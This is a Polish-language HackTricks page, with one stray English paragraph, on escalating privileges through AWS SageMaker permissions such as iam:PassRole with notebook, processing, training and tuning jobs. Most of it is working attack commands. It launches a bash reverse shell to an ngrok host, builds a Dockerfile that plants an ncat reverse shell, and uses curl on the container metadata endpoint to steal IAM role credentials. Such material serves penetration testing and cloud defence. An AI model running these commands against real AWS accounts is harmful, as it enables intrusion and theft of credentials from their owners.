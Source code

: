 # AWS - Eskalacja uprawnień w Sagemakerze

## AWS - Eskalacja uprawnień w Sagemakerze

<details>

<summary><strong>Zacznij naukę hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Rozpocznij tworzenie notatnika z przypisaną do niego rolą IAM:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
### Translation:

The response should contain a `NotebookInstanceArn` field, which will contain the ARN of the newly created notebook instance. We can then use the `create-presigned-notebook-instance-url` API to generate a URL that we can use to access the notebook instance once it's ready:  

Odpowiedź powinna zawierać pole `NotebookInstanceArn`, które będzie zawierać ARN nowo utworzonej instancji notatnika. Następnie możemy użyć interfejsu API `create-presigned-notebook-instance-url`, aby wygenerować adres URL, który będziemy mogli użyć do uzyskania dostępu do instancji notatnika, gdy będzie gotowa:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Przejdź pod podany adres URL za pomocą przeglądarki i kliknij w opcję \`Otwórz JupyterLab\` w prawym górnym rogu, a następnie przewiń w dół do zakładki "Launcher" i pod sekcją "Inne" kliknij przycisk "Terminal".

Teraz jest możliwe uzyskanie dostępu do metadanych uwierzytelniających roli IAM.

**Potencjalne skutki:** Eskalacja uprawnień do określonej roli usługi Sagemaker.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Jeśli na nim już działają notatniki Jupyter, możesz je wylistować za pomocą `sagemaker:ListNotebookInstances` (lub odkryć je w inny sposób). Możesz wygenerować dla nich URL, uzyskać do nich dostęp i ukraść poświadczenia, jak wskazano w poprzedniej technice.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Potencjalne skutki:** Eskalacja uprawnień do roli usługi Sagemaker.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Atakujący posiadający te uprawnienia może spowodować, że **sagemaker wykonuje zadanie przetwarzania** z przypisaną do niego rolą sagemaker. Atakujący może określić definicję kontenera, który zostanie uruchomiony w **instancji konta AWS zarządzanej przez ECS**, oraz **ukraść poświadczenia przypisane do roli IAM**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Potencjalne skutki:** Eskalacja uprawnień do określonej roli usługi Sagemaker.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Atakujący posiadający te uprawnienia będzie mógł utworzyć zadanie szkoleniowe, **uruchamiając na nim dowolny kontener** z **przypisaną rolą**. W związku z tym atakujący będzie mógł ukraść poświadczenia roli.

{% hint style="warning" %}
Ten scenariusz jest trudniejszy do wykorzystania niż poprzedni, ponieważ trzeba wygenerować obraz Dockera, który wyśle powłokę rev lub poświadczenia bezpośrednio do atakującego (nie można wskazać polecenia początkowego w konfiguracji zadania szkoleniowego).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Potencjalny wpływ:** Przywileje do roli usługi sagemaker.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Atakujący posiadający te uprawnienia będzie (potencjalnie) mógł utworzyć **zadanie trenowania hiperparametrów**, **uruchamiając na nim dowolny kontener** z **przypisaną rolą**.\
_Nie wykorzystałem tego z powodu braku czasu, ale wygląda podobnie do poprzednich ataków, śmiało prześlij PR z detalami eksploatacji._

## Odnośniki

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>Dowiedz się, jak hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
